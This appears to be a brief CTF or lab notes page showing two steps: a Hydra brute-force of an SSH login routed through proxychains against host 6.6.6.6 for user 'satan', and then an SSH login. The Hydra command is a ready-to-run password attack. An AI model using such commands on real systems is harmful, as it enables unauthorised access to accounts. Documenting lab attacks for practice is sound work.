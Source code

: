 ##### Bruteforce SSH login with Hydra
```
proxychains hydra -s 666 -t 4 -V -f -l satan -P password_list.txt ssh://6.6.6.6 
```
![Pasted image 20250601121600](../zzAttachments/Pasted%20image%2020250601121600.png)

##### Login with SSH
```
proxychains ssh satan@6.6.6.6 -p 666
```
![Pasted image 20250605101722](../zzAttachments/Pasted%20image%2020250605101722.png)
